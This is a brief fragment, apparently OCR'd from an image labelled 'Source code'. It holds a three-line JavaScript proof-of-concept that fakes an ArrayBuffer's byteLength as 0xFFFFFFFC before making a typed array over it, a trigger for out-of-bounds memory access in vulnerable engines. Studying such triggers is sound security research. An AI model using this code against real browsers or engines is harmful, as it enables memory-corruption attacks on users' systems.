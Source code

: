 
var ab = new ArrayBuffer(8);
ab.__defineGetter__("byteLength", function() { return 0xFFFFFFFC; });
var aaa = new Uint32Array(ab);

